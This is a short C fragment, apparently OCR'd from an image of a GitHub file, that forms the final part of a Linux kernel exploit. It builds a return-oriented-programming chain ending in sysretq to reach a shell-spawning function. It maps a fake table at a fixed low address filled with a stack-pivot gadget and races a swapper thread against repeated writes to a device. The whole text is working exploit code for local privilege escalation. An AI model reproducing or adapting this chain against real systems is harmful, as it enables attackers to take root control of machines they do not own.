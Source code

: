 ```c
    *rop++ = pop_rcx;
    *rop++ = (unsigned long)&pop_shell;
    *rop++ = pop_r11;
    *rop++ = 0x202;
    *rop++ = 0;
    *rop++ = sysretq;
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (unsigned long)fake_stack&~0xf;

    buf[0] = 0;
    buf[1] = 0x10001;

#define MAP_SIZE 0x1000000
    unsigned long* fake_table = mmap((void*)0x1000, MAP_SIZE, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED, -1, 0);
    for (int i = 0x98/8; i < MAP_SIZE/8; i+=0x1000/8)
        fake_table[i] = pivot;

    pthread_t swapper_thr;
    pthread_create(&swapper_thr, 0, swapper, &buf[0]);

    while (1)
        write(fd, buf, sizeof(buf));

    return 0;
}
```
